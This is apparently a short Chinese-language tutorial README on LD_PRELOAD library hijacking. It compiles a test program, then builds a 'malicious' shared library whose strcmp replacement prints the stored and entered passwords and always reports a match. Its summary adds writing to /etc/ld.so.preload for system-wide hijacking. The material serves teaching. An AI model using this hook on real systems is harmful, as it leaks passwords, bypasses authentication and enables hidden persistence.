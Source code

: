# LD_PRELOAD 简单利用

### 文件
- normal     正常程序
- malicious  恶意链接库

normal 代码很简单就是 一个字符串比较 (ls 显示当前文件 也差不多  异曲同工 之妙)

### 编译
```
gcc libstr.c  -fPIC -shared -o libstr.so  编译为动态链接库
gcc main.c -L. -lstr -o main              // 注意如果库文件名带有lib  这里-l 就要去掉lib
export LD_LIBRARY_PATH=/home/xxx          #指定动态链接库所在目录位置
ldd main                                  // 查询 链接库依存关系
```

现在程序需要 编写我们的恶意程序 替换原来的 libstr.so库
```cpp 
#include <stdio.h>
#include <string.h>

int my_strcmp(const char *s1, const char *s2) {
    printf("内置password: %s  输入password: %s \n", s1, s2);
    return 0;  // 永远相等
}
```
build: `gcc hack.c -fPIC -shared -o hack.so`
`export LD_PRELOAD="./hack.so"`       #设置LD_PRELOAD环境变量,库中的同名函数在程序运行时优先调用

是不是非常简单蛤

### 小结:
- `strace top` 追踪命令的 so依赖
- 在`/etc/ld.so.preload` 文件写入 so路径  替换动态链接库
- 通过命令 `export LD_PRELOAD="库文件路径"`，设置要优先替换动态链接库
- 如果找不替换库，可以通过 `export LD_LIBRARY_PATH=库文件所在目录路径`，设置系统查找库的目录
- 替换结束，要还原函数调用关系，用命令`unset LD_PRELOAD` 解除
- 查询执行文件so依赖关系，可以用`ldd 程序名称`